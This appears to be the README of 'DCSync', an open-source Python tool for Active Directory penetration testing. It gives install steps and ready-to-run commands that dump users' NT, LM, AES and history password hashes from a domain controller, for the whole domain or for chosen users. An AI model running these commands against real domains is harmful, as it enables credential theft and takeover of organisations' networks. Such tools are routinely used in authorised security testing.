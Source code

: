 ```
 ┓       
┏┫┏┏┓┏┏┓┏
┗┻┗┛┗┫┛┗┗
     ┛   
```

<p align="center">
    A python script for dumping domain users secrets using DCSync method.
    <br>
    <img alt="PyPI" src="https://img.shields.io/pypi/v/DCSync">
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/AetherBlack/DCSync">
    <a href="https://twitter.com/intent/follow?screen_name=san__yohan" title="Follow"><img src="https://img.shields.io/twitter/follow/san__yohan?label=Aether&style=social"></a>
    <br>
</p>

## Installation

You can install it from pypi (latest version is <img alt="PyPI" src="https://img.shields.io/pypi/v/DCSync">) with this command:

```bash
sudo python3 -m pip install dcsync
```

OR from source :

```bash
git clone https://github.com/AetherBlack/DCSync
cd DCSync
python3 -m venv .
source bin/activate
python3 -m pip install .
```

OR with pipx :

```bash
python3 -m pipx install git+https://github.com/AetherBlack/DCSync/
```

## Examples

- You want to DCSync the whole domain with Administrator privilegies :

```bash
dcsync $DOMAIN/$USER:"$PASSWORD"@$DC
```

![](./docs/img/1.png)

- You want to DCSync for a single principal :

```bash
dcsync -just-user Aether $DOMAIN/$USER:"$PASSWORD"@$DC
```

![](./docs/img/3.png)

- You want to DCSync the whole domain without Administrator privilegies using ldap method :

```bash
dcsync -method ldap $DOMAIN/$USER:"$PASSWORD"@$DC
```

You can use this methods :

```
samr (Default)
ldap
file
```

- You want to DCSync only a list of specific principals :

```bash
dcsync -just-user-file ./usersfile.txt $DOMAIN/$USER:"$PASSWORD"@$DC
```

![](./docs/img/2.png)

## How it works

The tool will use the provided method to enumerate the users of the domain. Then, it will connect to the DC's RPC to dump their NT hash, LM hash, AES hash and history hash.

---

## Credits

- [@fortra](https://github.com/fortra/) for developping [impacket](https://github.com/fortra/impacket)

## License

[GNU General Public License v3.0](./LICENSE)
